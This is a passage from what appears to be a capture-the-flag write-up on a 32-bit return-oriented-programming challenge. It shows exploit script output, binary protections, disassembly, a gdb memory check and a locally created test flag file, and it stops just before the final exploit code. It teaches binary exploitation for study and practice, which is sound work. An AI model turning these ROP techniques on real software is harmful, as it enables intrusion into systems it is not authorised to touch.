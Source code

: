 And it will return us:

```
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 2347
=========================
what the process returned
Enter your buffer: gotcha func1
gotcha func2
```

I could guess that the function2 have the same behavior of changing the value of `.bss` variable cause of this instruction:

```raw
80492d7:  c6 80 36 00 00 00 01  mov    BYTE PTR [eax+0x36],0x1
```

And finnaly we do the same for the function that has the `open` with the string `/code/ROP-me/flag.txt`, but in order to this next step works we have to have this file with the exactly path in our machine, so I will create:

```raw
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ sudo mkdir -p /code/ROP-me/
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ echo "FLAG TEST" | sudo tee /code/ROP-me/flag.txt
FLAG TEST
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ cat /code/ROP-me/flag.txt
FLAG TEST
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ sudo chmod 777 -R /code
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ ls /code/ROP-me/flag.txt  -l
-rwxrwxrwx 1 root root 10 Aug 31 22:08 /code/ROP-me/flag.txt
```

Now we are done to the next step, Let's remember how was the function:

<center><img src="post-assets/port-65144-ghidra-1.png" width="732" alt="ghidra" /></center>

OK the first two conditions I think will pass, and the last one depends on param1 value that has to be a value that subtracting `0x01` from it should be equal `0x01`. Why `0x01` 'cause I just printed it out, and it is it:

```
gef➤  x/x 0x0804c035
0x804c035:  0x00000001
```

Which is the value that subtracting 1 from it is equal 1? This one I will let you find alone!

Now we have 3 arguments, we will need a `pop; pop; pop; ret;`, so the final exploit is:
